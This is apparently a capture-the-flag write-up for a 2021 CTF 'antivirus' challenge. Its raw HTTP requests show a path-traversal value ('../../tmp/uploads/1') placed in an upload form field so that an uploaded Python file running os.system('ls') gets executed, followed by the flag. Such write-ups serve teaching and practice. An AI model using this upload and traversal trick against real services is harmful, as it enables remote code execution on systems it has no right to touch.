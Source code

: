 we have a website that checks the .exe and .txt files for viruses.
after some attempts, it becomes obvious that the .exe always shows the presence of a virus

![antivirus](https://user-images.githubusercontent.com/76822573/112985023-4f6b7200-9168-11eb-829e-32d40c2fd4c5.png)

first of all, you need to check what is sent in the request to the site. To do this, we will use BurpSuite and drop
our request into a repeater to make it easier to track the logic of the request.

Our request will look like this:

POST /5baeb899e761c5a8/ HTTP/1.1

Host: antivirus.q.2021.ugractf.ru

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------12702853124032821638850309380

Content-Length: 387

Origin: https://antivirus.q.2021.ugractf.ru

Connection: close

Referer: https://antivirus.q.2021.ugractf.ru/5baeb899e761c5a8/

Upgrade-Insecure-Requests: 1



-----------------------------12702853124032821638850309380

Content-Disposition: form-data; name="ext"



.exe
-----------------------------12702853124032821638850309380

Content-Disposition: form-data; name="file"; filename="1.py"

Content-Type: text/x-python



import os



os.system('')


-----------------------------12702853124032821638850309380--


there is an interesting line in the request that is the header for recognition, namely .exe
If we load there not an .exe, but a .py file, then an error is generated on the site with the
location of a special script for starting a check for an .exe file. To solve this, let's try to
change the header in the request from .exe to the place where our file that we download will be located.
We find out that our file, which we send for verification, is stored along the path /tmp/uploads/*file*.py

accordingly, we will change the request to the required one:


POST /5baeb899e761c5a8/ HTTP/1.1

Host: antivirus.q.2021.ugractf.ru

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------12702853124032821638850309380

Content-Length: 387

Origin: https://antivirus.q.2021.ugractf.ru

Connection: close

Referer: https://antivirus.q.2021.ugractf.ru/5baeb899e761c5a8/

Upgrade-Insecure-Requests: 1



-----------------------------12702853124032821638850309380

Content-Disposition: form-data; name="ext"



../../tmp/uploads/1
-----------------------------12702853124032821638850309380

Content-Disposition: form-data; name="file"; filename="1.py"

Content-Type: text/x-python



import os



os.system('ls')


-----------------------------12702853124032821638850309380--



![antivirus_ls](https://user-images.githubusercontent.com/76822573/112986128-c9502b00-9169-11eb-9d51-313595bb3b7f.png)

you can see that our payload worked, we just had to dig into the system and find the flag

![antivirus_ls_etc](https://user-images.githubusercontent.com/76822573/112986252-ef75cb00-9169-11eb-8634-c7ad8877055c.png)


![antivirus_flag](https://user-images.githubusercontent.com/76822573/112986269-f6044280-9169-11eb-8706-b46d0ee5409f.png)

Answer is: ugra_who_checks_the_checker_7dc3c0687ba6
